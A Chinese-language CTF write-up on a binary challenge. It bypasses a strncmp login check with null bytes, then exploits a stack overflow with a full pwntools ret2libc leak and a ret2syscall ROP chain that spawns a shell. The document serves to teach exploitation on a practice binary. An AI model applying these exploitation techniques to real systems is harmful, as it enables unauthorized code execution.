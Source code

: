 ## 天衣无缝的登录

题目描述：智慧之神说，只要你知道flag，你就能获得flag。看起来好像是一句废话。

### 0x01 漏洞分析

用IDA7.5打开题目附件，首先进入main函数，可以看出来只有login之后才可以进行下一步操作，调用login_success

![](https://img2023.cnblogs.com/blog/2615366/202212/2615366-20221205182255180-731060585.png)

可以看到login_success函数中存在一个栈溢出

![image-20221207130915509](./image/1.png)

再看login函数，读入的password是使用strncmp进行比较的，因此我们只需要发送一个\x00就可以对登录进行绕过

![image-20221207131156449](/Users/liujiamu/Library/Application Support/typora-user-images/image-20221207131156449.png)

绕过之后就是水到渠成的栈溢出漏洞利用了～

## 0x02 漏洞利用

由于程序开了NX保护，因此我们采用ret2libc的思路，首先进行认证绕过：

```python3
from pwn import *
context.log_level = 'debug'
sh = process('./pwn')
# sh = remote('127.0.0.1',8001)
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi =0x0000000000402683 
pop_rsi_r15 = 0x0000000000402681


sh.recvuntil('> ')
sh.sendline('1')
sh.recvuntil(': ')
sh.sendline("\x00\x00")
sh.recvuntil('Now you can rop')
sleep(0.1)


```

随后我们尝试泄漏libc地址，首先要确认偏移。在log_success函数中双击buf变量会看到r变量也就是返回地址所在的位置是8，而buf所在的位置是-20，因此偏移是0x28。不过IDA里面又时候有问题，出问题以gdb下断点动态调试为准。

![](./image/2.png)

因此我们构造的payload如下，使用puts函数泄漏puts_got里的libc地址

```python3
payload = b'a'*0x28 + p64(pop_rdi)
payload += p64(puts_got) + p64(puts_plt)
payload += p64(0x402572)



sh.sendline(payload)
sh.recv(6)
libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - 0x84420 #这里其实可以直接减 libc.sym['puts'],我是直接gdb算出来的
log.success('libc_base: ' + hex(libc_base))  # 打印libc地址
```

最后我在libc文件里寻找的rop链，使用的思路是ret2syscall。

`ROPgadget --binary ./libc.so | grep ret`

```python3
pop_rdx = libc_base + 0x0000000000142c92
pop_rax = libc_base + 0x0000000000036174

binsh_addr = libc_base + 0x00000000001b45bd
syscall = libc_base + 0x000000000002284d
payload = b'a'*0x28 + p64(pop_rdi)
payload += p64(binsh_addr) + p64(pop_rsi_r15) + p64(0) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(59) + p64(syscall)


sh.recvuntil('> ')
sh.sendline('1')
sh.recvuntil(': ')
sh.sendline("\x00\x00")
sh.recvuntil('Now you can rop')
sleep(0.1)
sh.sendline(payload)
# gdb.attach(sh)
sh.interactive()
```

### 完整exp

```python3
from pwn import *
context.log_level = 'debug'
sh = process('./pwn')
# sh = remote('127.0.0.1',8001)
elf = ELF('./pwn')
libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
pop_rdi =0x0000000000402683 
pop_rsi_r15 = 0x0000000000402681


sh.recvuntil('> ')
sh.sendline('1')
sh.recvuntil(': ')
sh.sendline("\x00\x00")
sh.recvuntil('Now you can rop')
sleep(0.1)

puts_got = elf.got['puts']
puts_plt = elf.plt['puts']

payload = b'a'*0x28 + p64(pop_rdi)
payload += p64(puts_got) + p64(puts_plt)
payload += p64(0x402572)



sh.sendline(payload)
sh.recv(6)
libc_base = u64(sh.recv(6).ljust(8,b'\x00')) - 0x84420
log.success('libc_base: ' + hex(libc_base))

pop_rdx = libc_base + 0x0000000000142c92
pop_rax = libc_base + 0x0000000000036174

binsh_addr = libc_base + 0x00000000001b45bd
syscall = libc_base + 0x000000000002284d
payload = b'a'*0x28 + p64(pop_rdi)
payload += p64(binsh_addr) + p64(pop_rsi_r15) + p64(0) + p64(0)
payload += p64(pop_rdx) + p64(0)
payload += p64(pop_rax) + p64(59) + p64(syscall)


sh.recvuntil('> ')
sh.sendline('1')
sh.recvuntil(': ')
sh.sendline("\x00\x00")
sh.recvuntil('Now you can rop')
sleep(0.1)
sh.sendline(payload)
# gdb.attach(sh)
sh.interactive()
```

### 关于更换libc

后面经常会碰到不同libc版本的题目（尤其堆题），大概有三种方案

1. 使用patchelf [NixOS/patchelf: A small utility to modify the dynamic linker and RPATH of ELF executables (github.com)](https://github.com/NixOS/patchelf) ，最好是将libc更换成glibc-all-in-one里有符号的libc，方便调试

2. 使用docker创建虚拟环境[docker 初探 | 木头的小木屋 (wood1314.github.io)](https://wood1314.github.io/year/01/30/cl7iordpb0024293fhfd5zi74/)
3. 多建几个虚拟机